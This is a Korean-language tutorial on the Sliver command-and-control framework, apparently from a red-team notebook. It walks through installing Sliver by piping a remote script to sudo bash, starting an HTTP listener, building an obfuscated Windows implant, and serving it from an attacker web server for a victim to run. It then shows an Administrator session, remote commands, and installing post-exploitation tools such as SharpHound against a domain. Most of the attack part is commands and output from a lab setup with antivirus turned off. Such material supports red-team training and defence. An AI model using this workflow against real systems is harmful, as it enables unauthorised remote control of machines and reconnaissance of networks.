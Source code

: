 # 팀 서버 - Sliver

## Sliver

슬리버(Sliver)는 BishopFox사에서 제작/관리하고 있는 golang 기반의 오픈소스 C2 프레임워크다. 러시아의 정보기관인 SVR(Foreign Intelligence Service)도 2021년 여름 작전에 사용했을 만큼 APT 그룹들 또한 사용하고 있는 C2다. 이와 관련해서 영국의 National Cybersecurity Centre (NCC) 가 발표한 보고서는 [여기서 확인](https://www.ncsc.gov.uk/files/Advisory-further-TTPs-associated-with-SVR-cyber-actors.pdf)할 수 있다.

설치와 튜토리얼은 모두 [슬리버 프로젝트 위키](https://github.com/BishopFox/sliver/wiki/Getting-Started)를 참고했다.

### 설치

다음 명령어를 사용해 슬리버 C2 서버를 설치한다.

```
curl https://sliver.sh/install|sudo bash
< ... 설치 ... > 

┌──(root㉿kali)-[/opt]
└─# sliver
Connecting to localhost:31337 ...

          ██████  ██▓     ██▓ ██▒   █▓▓█████  ██▀███
        ▒██    ▒ ▓██▒    ▓██▒▓██░   █▒▓█   ▀ ▓██ ▒ ██▒
        ░ ▓██▄   ▒██░    ▒██▒ ▓██  █▒░▒███   ▓██ ░▄█ ▒
          ▒   ██▒▒██░    ░██░  ▒██ █░░▒▓█  ▄ ▒██▀▀█▄
        ▒██████▒▒░██████▒░██░   ▒▀█░  ░▒████▒░██▓ ▒██▒
        ▒ ▒▓▒ ▒ ░░ ▒░▓  ░░▓     ░ ▐░  ░░ ▒░ ░░ ▒▓ ░▒▓░
        ░ ░▒  ░ ░░ ░ ▒  ░ ▒ ░   ░ ░░   ░ ░  ░  ░▒ ░ ▒░
        ░  ░  ░    ░ ░    ▒ ░     ░░     ░     ░░   ░
                  ░      ░  ░ ░        ░     ░  ░   ░

All hackers gain haste
[*] Server v1.5.14 - 1d4422b465a53b78497461930239bb558a0bf652
[*] Welcome to the sliver shell, please type 'help' for options

```

이후 에이전트 생성에 필요한 mingw 를 설치한다.

```
apt install mingw-w64 -y
```

### 튜토리얼 - 리스너 구축 및 사용

제대로된 리스너 구축 및 비컨 생성에 대해 알아보기 전, 먼저 간단하게 슬리버의 기본 기능들을 사용해보자. 이 튜토리얼에서는 HTTP 리스너를 구축한 뒤, 윈도우 10 호스트에서 실행할 수 있는 에이전트를 생성하고, 세션을 구축해본다.&#x20;



**리스너 생성**&#x20;

```
# HTTP 리스너 구축 
sliver> http -L <ip> --lport 8080 

# 예시 
sliver > http -d 192.168.40.182 -l 80

[*] Starting HTTP 192.168.40.182:80 listener ...
[*] Successfully started job #10
```

**에이전트 생성**

```
# 예시 
sliver > generate --http 192.168.40.182 -s /root/operation/demo.exe 

[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
 ⠦  Compiling, please wait ...
[*] Build completed in 00:01:01
[*] Implant saved to /root/operation/demo.exe
```

**에이전트 실행**

간단하게 피해자 호스트에서 비컨을 다운 받은 뒤, 실행시킨다. 튜토리얼이기 때문에 디펜더 등의 모든 AV/EDR 솔루션들은 다 꺼놓는다. 슬리버를 사용하는게 주 목적이지, 완전한 레드팀 작전을 수행하는게 주 목적이 아니기 때문이다.

```
# 공격자 웹서버 실행, demo.exe 에이전트 파일 호스팅 
cd /root/operation/
python3 -m http.server 8443

# 피해자 호스트에서 공격자의 웹서버 접근 뒤 demo.exe 다운 및 실행 

# 에이전트 실행 뒤 세션 구축 
[*] Session fef4c787 PREFERRED_ESE - 192.168.40.151:50118 (wkstn01) - windows/amd64 - Mon, 06 Jun 2022 22:11:03 EDT

sliver > sessions 

 ID         Name            Transport   Remote Address         Hostname   Username                Operating System   Last Message                    Health  
========== =============== =========== ====================== ========== ======================= ================== =============================== =========
 fef4c787   PREFERRED_ESE   http(s)     192.168.40.151:50118   wkstn01    WKSTN01\Administrator   windows/amd64      Mon, 06 Jun 2022 22:11:05 EDT   [ALIVE] 
```

**세션 구축**

에이전트로 구축한 세션을 실행한 뒤 원하는 명령어들을 실행한다.

```
sliver > sessions -i fef4c787

[*] Active session PREFERRED_ESE (fef4c787)

sliver (PREFERRED_ESE) > whoami

Logon ID: WKSTN01\Administrator
[*] Current Token ID: WKSTN01\Administrator

sliver (PREFERRED_ESE) > ls

C:\Users
========
drwxrwxrwx  Administrator       <dir>  Thu Dec 16 21:13:52 -0500 2021
drwxrwxrwx  Administrator.CHOI  <dir>  Mon Feb 07 22:09:25 -0500 2022
Lrw-rw-rw-  All Users           0 B    Sat Dec 07 04:30:39 -0500 2019
```

#### 비컨 사용&#x20;

세션 기반이 아닌 비컨 기반의 에이전트는 다음과 같이 사용한다.&#x20;

```
sliver > beacons
sliver > use 5364f10d-43d0-41e5-8bfe-55c09a0ee8d3

[*] Active beacon LOST_QUICKSAND (5364f10d-43d0-41e5-8bfe-55c09a0ee8d3)

sliver (LOST_QUICKSAND) > 
```

#### 플러그인 설치&#x20;

슬리버는 약 60가지의 포스트 익스플로잇 툴들을 제공한다.&#x20;

```
sliver> armory install all 
sliver> use <beacon-name>

# 설치된 툴들 확인 
sliver> help  
sliver> sharp-hound-3 '' -c All -d choi.local 
```

앞으로 인프라를 구축하면서 슬리버의 고급 기능들을 사용하겠지만, 일단 튜토리얼은 여기서 마친다.
